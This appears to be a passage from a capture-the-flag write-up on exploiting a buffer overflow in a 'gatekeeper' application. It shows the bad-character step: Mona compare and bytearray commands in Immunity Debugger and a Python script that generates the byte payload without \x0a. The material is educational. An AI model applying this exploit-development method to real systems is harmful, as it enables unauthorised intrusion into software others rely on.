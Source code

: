 Then we run the command below to compare the bad characters from the baseline to the one in the crashed application.

```
!mona compare -f c:\mona\gatekeeper\bytearray.bin -a 015D19F8
```
The 015d19f8 is the ESP value we found above. Ensure you change it to yours
The output of the command, shows an extra bad char, `\x0a`.

![](/assets/img/images/gatekeeper/badchars0a.png)

So we regenerate our payload, excluding the extra bad char. Our badchar code generator will now look like :

```python
from __future__ import print_function
Remove = "\\x0a".split("\\x")
for x in range(1, 256):
    if "{:02x}".format(x) not in Remove:
        print("\\x" + "{:02x}".format(x), end='')
print()

```
We run it, copy the new payload to our exploit, reload the application on Immunity and run the exploit. Since we now have two bad characters excluded, we also regenerate Mona's baseline characters to compare,

```
!mona bytearray -b "\x00\x0a"
```
and then rerun the comparison, replacing with the new ESP value.
```
!mona compare -f c:\mona\gatekeeper\bytearray.bin -a <new_address>
```

We get an *Unmodified status*, indicating we have captured and excluded all the bad characters.

![](/assets/img/images/gatekeeper/unmodified.png)
